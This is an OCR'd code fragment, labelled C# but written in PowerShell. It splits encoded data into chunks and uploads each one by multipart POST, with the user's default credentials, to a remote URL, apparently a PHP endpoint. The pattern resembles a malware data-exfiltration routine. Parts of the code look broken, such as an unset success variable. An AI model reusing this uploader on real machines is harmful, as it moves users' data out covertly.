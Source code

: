 ```csharp
  $readlen = $templen;
  if (($nEncLen - $sum) -lt $templen){$readlen = $nEncLen - $sum}
  if ($readlen -ne 0)
  {
   $pUploadData = $encletter + $sum
   $sum += $readlen
  }
  else
  {
   $pUploadData += "ending"
   $sum += 9
   $readlen = 6
  }
  Start-Sleep -Milliseconds 1
  $boundary = "----WebKitFormBoundarywhpFxMBe19cSjFnG"
  $ContentType = 'multipart/form-data; boundary=' + $boundary
  $bodyLines = (
  "--$boundary",
  "Content-Disposition: form-data; name=`"MAX_FILE_SIZE`"$LF",
  "10000000",
  "--$boundary",
  "Content-Disposition: form-data; name=`"userfile`"; filename=`"$upName`"",
  "Content-Type: application/octet-stream$LF",
  $pUploadData,
  "--$boundary"
  ) -join $LF

  Start-Sleep -Milliseconds 1
  $psVersion = $PSVersionTable.PSVersion  
  $r = [System.Net.WebRequest]::Create($Url)
  $r.Method = "POST"
  $r.UseDefaultCredentials = $true
  $r.ContentType = $ContentType
  $enc = [system.Text.Encoding]::UTF8
  $data1 = $enc.GetBytes($bodyLines)
  $r.ContentLength = $data1.Length
  $newStream = $r.GetRequestStream()
  $newStream.Write($data1, 0, $data1.Length)
  $newStream.Close();
  
  if($php_post -like "ok"){echo "UpLoad Success!!!"}
  else
  {
   echo "UpLoad Fail!!!"
   $bReturn = $False
  }
 } while ($sum -le $nEncLen);
 return $bReturn
}
```
